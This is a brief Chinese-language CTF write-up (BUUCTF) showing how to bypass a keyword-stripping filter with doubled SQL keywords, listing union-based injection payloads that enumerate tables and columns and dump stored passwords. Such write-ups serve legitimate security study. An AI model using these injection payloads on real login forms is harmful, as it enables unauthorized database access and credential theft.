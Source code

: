 ### 双写绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/6848e1d858cb8da5c842d752.jpg)

初次尝试万能密码失败

双写关键字 `or` 登录成功

![](https://pic1.imgdb.cn/item/6848e1fa58cb8da5c842d884.jpg)

![](https://pic1.imgdb.cn/item/6848e22158cb8da5c842d8c1.jpg)

猜猜列数有三位

```sql
?username=admin&password=admin' uunionnion sselectelect 1,2,3#
```

![](https://pic1.imgdb.cn/item/6848e38258cb8da5c842d9d3.png)

查表

```sql
?username=admin&password=admin' uunionnion sselectelect 1,2,group_concat(table_name)ffromrom infoorrmation_schema.tables wwherehere table_schema=database()#
```

![](https://pic1.imgdb.cn/item/6848e44c58cb8da5c842da6f.png)

查列字段

```sql
?username=admin&password=admin' uunionnion sselectelect 1,2,group_concat(column_name)ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'#
```

![](https://pic1.imgdb.cn/item/6848e48058cb8da5c842daa2.png)

爆数据

```sql
?username=admin&password=admin' uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql#
```

![](https://pic1.imgdb.cn/item/6848e4dd58cb8da5c842db0b.png)
